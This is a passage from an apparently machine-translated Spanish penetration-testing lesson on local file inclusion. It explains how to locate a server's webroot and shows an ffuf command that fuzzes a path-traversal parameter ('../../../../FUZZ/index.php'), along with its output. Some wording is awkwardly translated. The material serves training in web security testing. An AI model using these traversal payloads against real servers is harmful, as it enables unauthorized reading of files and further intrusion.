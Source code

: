 Como podemos ver, el escaneo arrojó una serie de cargas útiles de LFI que se pueden usar para explotar la vulnerabilidad. Una vez que tengamos las cargas útiles identificadas, debemos probarlas manualmente para verificar que funcionen como se esperaba y mostrar el contenido del archivo incluido.

---

# **Archivos de servidor confuso**

Además de las cargas útiles LFI confusas, existen diferentes archivos de servidor que pueden ser útiles en nuestra explotación de LFI, por lo que sería útil saber dónde existen dichos archivos y si podemos leerlos. Tales archivos incluyen:`Server webroot path`, `server configurations file`, y`server logs`.

### **Avenida web**

Es posible que necesitemos conocer la ruta completa del servidor web para completar nuestra explotación en algunos casos. Por ejemplo, si queríamos localizar un archivo que subimos, pero no podemos alcanzar su`/uploads`Directorio a través de rutas relativas (por ejemplo`../../uploads`). En tales casos, es posible que necesitemos descubrir la ruta del Servidor Webroot para que podamos localizar nuestros archivos cargados a través de rutas absolutas en lugar de rutas relativas.

Para hacerlo, podemos luchar por el`index.php`Archivo a través de rutas de raíz web común, que podemos encontrar en este[lista de palabras para Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)o esto[Lista de palabras para Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Dependiendo de nuestra situación de LFI, es posible que necesitemos agregar algunos directorios de atrás (por ejemplo,`../../../../`), y luego agregue nuestro`index.php`Afterwords.

El siguiente es un ejemplo de cómo podemos hacer todo esto con FFUF:

Escaneo automático

```
xnoxos@htb[/htb]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287...SNIP...

: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]

```
